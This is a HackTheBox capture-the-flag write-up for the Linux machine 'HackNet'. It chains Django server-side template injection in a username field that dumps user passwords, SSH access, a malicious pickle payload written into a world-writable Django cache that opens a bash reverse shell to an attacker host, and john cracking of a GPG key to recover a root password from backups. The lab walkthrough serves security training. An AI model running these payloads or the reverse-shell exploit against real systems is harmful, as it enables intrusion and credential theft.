


# HackNet - HackTheBox Writeup

## Machine Information
- **Name**: HackNet
- **Difficulty**: Medium
- **OS**: Linux
- **IP**: 10.10.11.85
- **Domain**: hacknet.htb

## Summary
HackNet is a Medium-difficulty Linux machine featuring a Django social networking application vulnerable to Server-Side Template Injection (SSTI). The attack chain involves discovering template injection in the username field through the likes system, harvesting credentials via Django template evaluation, lateral movement through Python pickle deserialization in Django's cache system, and privilege escalation by cracking GPG-encrypted database backups containing reused root credentials.

## Initial Enumeration

We start with an nmap scan, as usual my favorite technique:

```bash
nmap -sCVT -v -A --script=http-enum --script http-title -p$(nmap -v -T5 -Pn -p- "$TARGET" | grep -E'^[0-9]+/tcp' | awk -F'/' '{print $1}' | paste -sd ',') "$TARGET" -oN hacknet_nmap
```

**Nmap Results:**
```
Nmap scan report for hacknet.htb (10.10.11.85)
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: HackNet - social network for hackers
```

Two open ports discovered: SSH (22) and HTTP (80).

### Web Application Analysis
```bash
whatweb http://"$TARGET"
```

**Results:**
```
http://10.10.11.85 [301 Moved Permanently] HTTPServer[nginx/1.22.1], RedirectLocation[http://hacknet.htb/]
http://hacknet.htb/ [200 OK] HTML5, HTTPServer[nginx/1.22.1], JQuery[3.7.1], Title[HackNet - social network for hackers]
```

From here we add the host to our `/etc/hosts` file:
```bash
echo '10.10.11.85 hacknet.htb' | tee -a /etc/hosts
```

The website appears to be a hacker forum/social network:



From here we login and continue our pentest. Using techniques from [0xdf's blog](https://0xdf.gitlab.io/cheatsheets/404), we identify this as a Django application.

### Directory Enumeration
```bash
feroxbuster -w `fzf-wordlists` -u "http://$WEBSITE/"
```

**Key Discovered Endpoints:**
- `/login` - Authentication page  
- `/register` - User registration
- `/profile` - User profiles
- `/profile/edit` - Profile editing (critical for exploitation)
- `/explore` - Post exploration
- `/like/<POST_ID>` - Like posts (AJAX)
- `/likes/<POST_ID>` - View post likers (vulnerable endpoint)
- `/static/admin/` - Django admin static files

Most files and folders had restricted permissions, providing no immediate access.

## Vulnerability Discovery: Server-Side Template Injection

### Initial Testing Approach
We can edit our user profile and upload a profile picture. Testing for insecure file upload vulnerabilities yielded no results.

Next, we tested various vulnerabilities on each modifiable profile field (username and email). Something strange occurred - the server responded with 500 error codes for certain payloads.

### The Breakthrough: Like System Analysis
During application exploration, we discovered these key endpoints:
- `GET /like/<POST_ID>` - Makes a like on a post
- `GET /likes/<POST_ID>` - Lists all users that liked the post

Something strange appeared in the title field corresponding to my username - there was whitespace where other users had their actual usernames:



### SSTI Discovery Process
I realized that the SSTI payload `{ %debug% }` was actually being rendered (but showing nothing visible). Since that field renders the username from Django, I tested again by changing my username to `{{users}}` and made a request to see the likes.

**Bingo!** The template was processed:

```html
</div><div class="likes-review-item"><a href="/profile/28"></a></div>
```

### Credential Extraction via SSTI
This showed registered usernames, but we needed passwords. Continuing testing on user posts, I found post ID 23 (a private post) (IDOR vuln) and tested `{{users.0.password}}`:

```html
<div class="likes-review-item"><a href="/profile/28"></a></div>
```

We got a potential password! To identify the user, assuming `{{users.0.password}}` gives the password of user with index 0, I used `{{users.0.email}}`:

```html
<div class="likes-review-item">
        <a href="/profile/28">
        
        </a>
</div>
```

**Credentials discovered:**
- **Username**: mikey  
- **Password**: mYd4rks1dEisH3re

## Initial Access

With SSH enabled, we tested these credentials:

```bash
ssh mikey@hacknet.htb
# Password: mYd4rks1dEisH3re

Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64
Last login: Wed Sep 24 19:28:38 2025 from 10.10.15.54
mikey@hacknet:~$ ls
user.txt
```

**User flag obtained!**

## Lateral Movement: Django Cache Poisoning

### Privilege Analysis
```bash
sudo -l
# No sudo privileges for mikey

ls /home
# Discovered additional user: sandy
```

The current user `mikey` doesn't have sudo rights, so we need to find another path forward. We discovered another user named `sandy` on the system.

### Django Cache Discovery
```bash
ls -ld /var/tmp/django_cache
# drwxrwxrwx 2 sandy www-data 4096 Sep 25 01:15 /var/tmp/django_cache
```

**Critical Observations:**
1. **World-writable directory**: Any user can write to the cache directory
2. **Owner**: sandy (the Django application runs as this user)  
3. **Group**: www-data (web server context)

This is considered **Lateral Movement** because instead of escalating privileges directly (e.g., via sudo), we pivot from one compromised account (`mikey`) to another account (`sandy`), which provides greater access.

### Understanding Django FileBasedCache
Django uses different caching backends (FileBasedCache, Memcached, Redis). If no external cache is configured, Django defaults to storing cache data on the filesystem, typically under `/var/tmp/django_cache/`.

The Django application is running as user `sandy`, not `www-data`. When we exploit the Django cache and trigger code execution, the payload executes as `sandy`.

### Pickle Deserialization Attack

Django's FileBasedCache stores serialized Python objects using the pickle module. When Django loads cache files, it automatically calls `pickle.loads()`, which can execute arbitrary code if the pickle data is malicious.

**Step 1: Set up listener**
```bash
nc -lvnp 4444
```

**Step 2: Generate malicious pickle payload** AI useful thanks Claude AI 
```python
#!/usr/bin/env python3
import os
import pickle
import time
import sys

LHOST = "10.10.15.xx"
LPORT = 5000

class Exploit:
    def __reduce__(self):
        return (os.system, (f'bash -c "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"',))

expiry = str(int(time.time()) + 600).encode() + b"\n"  # epoch + LF
payload = pickle.dumps(Exploit(), protocol=pickle.HIGHEST_PROTOCOL)
sys.stdout.buffer.write(expiry + payload)
```

**Step 3: Generate and upload payload**
```bash
python3 exploit.py > payload.b64
scp payload.b64 mikey@hacknet.htb:/tmp/
```

**Step 4: Warm the cache**
```bash
# Trigger Django to create cache files
curl -H "Cookie: sessionid=d3tbldo9so7qc2noba8xgxi5knkiro19; csrftoken=cW045K573dHHFdiulUmV1BEPv47N8D5I" \
http://hacknet.htb/explore >/dev/null
```

**Step 5: Identify and replace cache files**
```bash
# List recent cache files
ls -lt /var/tmp/django_cache/*.djcache | head

# Replace newest cache files with our payload
cd /var/tmp/django_cache
for i in 1f0acfe7480a469402f1852f8313db86.djcache 90dbab8f3b1e54369abdeb4ba1efc106.djcache; do
    rm -f $i
    cat /tmp/payload.b64 | base64 -d > $i
    chmod 777 $i
done
```

**Step 6: Trigger the payload**
```bash
curl -H "Cookie: sessionid=d3tbldo9so7qc2noba8xgxi5knkiro19; csrftoken=cW045K573dHHFdiulUmV1BEPv47N8D5I" \
http://hacknet.htb/explore >/dev/null
```

We successfully get a reverse shell as user `sandy`!

## Privilege Escalation: GPG-Encrypted Database Backups

### Backup Discovery
```bash
cd /var/www/HackNet/backups
ls -la
# Found 3 backup files:
# backup01.sql.gpg
# backup02.sql.gpg  
# backup03.sql.gpg
```

### Extracting the Backups
```bash
# Start HTTP server to transfer files
python3 -m http.server 8002

# Download encrypted backups from Kali
curl -O http://hacknet.htb:8002/backup01.sql.gpg
curl -O http://hacknet.htb:8002/backup02.sql.gpg
curl -O http://hacknet.htb:8002/backup03.sql.gpg
```

### GPG Key Discovery
```bash
# Found GPG private keys
ls /home/sandy/.gnupg/private-keys-v1.d

# Start HTTP server again
python3 -m http.server 8002

# Download GPG public key
curl -O http://hacknet.htb:8002/armored_key.asc
```

### GPG Key Cracking
```bash
# Convert GPG key to crackable hash
gpg2john armored_key.asc > armored_hash.txt

# Crack the passphrase
john --format=gpg --wordlist=`fzf-wordlist` armored_hash.txt
# Result: sweetheart
```

### Database Decryption
```bash
# Import the GPG key
gpg --import armored_key.asc
# Enter passphrase: sweetheart

# Decrypt backup
gpg --output backup02.sql --decrypt backup02.sql.gpg

# Search for passwords
grep -i "password" backup02.sql
# Found root password: h4ck3rs4re3veRywh3re99
```

### Root Access
```bash
ssh root@hacknet.htb
# Password: h4ck3rs4re3veRywh3re99

cat /root/root.txt
```

## Attack Chain Summary

1. **Web Enumeration** → Discovered Django social network application
2. **SSTI Discovery** → Found template injection in username field via `/likes/<POST_ID>` endpoint
3. **Credential Harvesting** → Used SSTI to extract user credentials from Django QuerySet
4. **SSH Access** → Authenticated as mikey using extracted credentials
5. **Cache Discovery** → Found world-writable Django cache directory owned by sandy
6. **Pickle Exploitation** → Created malicious pickle payload to poison Django cache
7. **Lateral Movement** → Gained reverse shell as sandy via cache deserialization
8. **GPG Discovery** → Found encrypted database backups and GPG keys
9. **Key Cracking** → Cracked GPG passphrase using john
10. **Database Decryption** → Decrypted backups to extract root password
11. **Root Access** → SSH as root using discovered credentials

## Key Learning Points

1. **Django SSTI**: Template injection in less obvious places like HTML attributes
2. **Cache Poisoning**: World-writable cache directories can lead to code execution
3. **Pickle Deserialization**: Python pickle can execute arbitrary code when deserialized
4. **Credential Reuse**: Database passwords often match system account passwords
5. **GPG Security**: Weak passphrases on encryption keys compromise security


## Tools Used

- nmap (Port scanning)
- feroxbuster (Directory enumeration)
- Burp Suite (Web application testing)
- Python (Custom exploit development)
- john (Password cracking)
- GPG (Key management and decryption)

